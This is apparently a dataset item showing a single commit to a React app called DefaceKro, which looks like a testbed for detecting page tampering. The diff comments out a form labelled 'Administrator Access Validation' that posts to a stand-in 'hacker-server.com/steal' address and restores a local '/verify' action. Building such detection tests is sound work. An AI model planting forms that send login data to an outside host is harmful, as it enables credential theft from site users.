

Before and after one commit to Shubhamgupta171/DefaceKro, a React (Vite) app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update MainContent.jsx

```diff
--- a/src/components/MainContent.jsx
+++ b/src/components/MainContent.jsx
@@ -49,11 +49,11 @@ const MainContent = () => {
 
         {/* Add 10 dummy divs to change the node count */}
         {/* Test: Structural Drift (Scoring Logic) */}
-        <div>
+        {/* <div>
           {[...Array(10)].map((_, i) => (
             <div key={i}>Extra Node {i + 1}</div>
           ))}
-        </div>
+        </div> */}
 
         {/* LARGE CONTENT REWRITE */}
         <section
@@ -82,7 +82,7 @@ const MainContent = () => {
         </section>
 
         {/* MODIFIED FORM LABELS + BUTTONS */}
-        {/* <form
+         <form
           action="/verify"
           method="POST"
           style={{
@@ -91,8 +91,8 @@ const MainContent = () => {
             padding: '20px',
             borderRadius: '6px',
           }}
-        > */}
-<form action="https://hacker-server.com/steal" method="POST"
+        >
+{/* <form action="https://hacker-server.com/steal" method="POST"
 
 
       style={{
@@ -103,7 +103,7 @@ const MainContent = () => {
           }}
 
   >
-
+         */}
           <h3>Administrator Access Validation</h3>
 
           <label
```
